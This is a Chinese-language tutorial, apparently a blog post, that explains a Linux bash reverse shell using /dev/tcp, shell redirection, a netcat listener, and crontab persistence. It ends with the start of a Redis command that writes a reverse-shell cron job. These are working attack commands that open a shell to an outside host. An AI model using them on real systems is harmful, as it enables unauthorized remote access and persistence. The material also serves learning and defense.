

背景知识
Linux反弹Shell
用于Linux反弹Shell的命令如下
1 | bash -i >& /dev/tcp/[ip]/[port] 0>&1 2>&1 |
将它分解成以下几个部分，分别理解
1 | bash -i |
打开一个交互式的bash
可以使用命令 echo $- 来判断是否是交互式的Shell，输出结果的解释如下
- h：Cache location of binaries in the $PATH. Speeds up execution, but fails if you move binaries around during the shell session
- i：The current shell is interactive
- m：Job control is enabled
- B：Brace expansion is enabled
- H：History substitution like !-1
测试是否是交互式Shell

1 | /dev/tcp/[ip]/[port] |
通过ip和端口与另一台主机建立一个socket连接，另一台主机可以通过 nc -lvp [port] 命令与这台主机通信
1 | >& 0>&1 2>&1 |
这些命令涉及到了Linux的输入/输出重定向和保留文件描述符
输入/输出重定向
| 命令 | 说明 |
|---|---|
| command > file | 将输出重定向到 file |
| command < file | 将输入重定向到 file |
| command >> file | 将输出以追加的方式重定向到 file |
| n > file | 将文件描述符为 n 的文件重定向到 file |
| n >> file | 将文件描述符为 n 的文件以追加的方式重定向到 file |
| n >& m | 将输出文件 m 和 n 合并 |
| n <& m | 将输入文件 m 和 n 合并 |
| << tag | 将开始标记 tag 和结束标记 tag 之间的内容作为输入 |
保留文件描述符
| 保留文件描述符 | 说明 |
|---|---|
| 0 | 标准输入（STDIN） |
| 1 | 标准输出（STDOUT） |
| 2 | 标准错误输出（STDERR） |
现在开始将这些命令组合起来理解
首先是 bash -i >& /dev/tcp/[ip]/[port]，它的意思是将这个交互式bash的所有输出都发送到目标主机
2>&1 的意思是将系统的标准输出和标准错误输出合并，也就是所有输出都统一到一个地方
0>&1 的意思是将目标主机的输入发送到bash
最终就实现了远程反弹Shell
crontab写Shell
crontab的作用是设置定时任务，可以通过编辑 /var/spool/cron/root 文件来添加定时任务
定时任务的写法如下
1 | # Example of job definition: |
写进定时任务的内容如下，意思是每分钟运行一次反弹Shell的命令
1 | */1 * * * * bash -i >& /dev/tcp/[ip]/[port] 0>&1 2>&1 |
Redis反弹Shell
1 | set shell "*/1 * * * * bash -i >& /dev/tcp/[ip]/[port] 0>&1 2>&1" |